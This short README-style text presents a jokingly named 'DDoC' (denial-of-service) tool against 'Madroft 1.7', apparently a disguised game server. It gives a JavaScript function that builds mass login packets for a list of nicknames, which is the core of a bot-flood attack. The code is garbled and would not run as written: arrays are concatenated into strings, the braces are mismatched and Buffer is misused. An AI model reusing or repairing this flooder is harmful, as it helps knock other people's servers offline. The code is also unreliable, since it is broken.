 # Madroft
Hai-pafoomansu DDoC (Distributed Denial of santa Claus) debaisu against Madroft 1.7.

```js
loginBufs = (nicks, isForge, version) =>
  nicks.map((n) => 
    unescape(encodeURIComponent(n))
  ).map((u8) => 
    [0x06, 0x00, version, 0x00] +
    (isForge
      ? [0x67, 0x36]
      : [0x63, 0xdd]) +
    [0x02, u8.length + 2, 0x00, u8.length] +
    Array.prototype.map.call(u8, (x) => x.charCodeAt(0))
  }).map((ar) =>
    new Buffer.from(ar)
  )
```
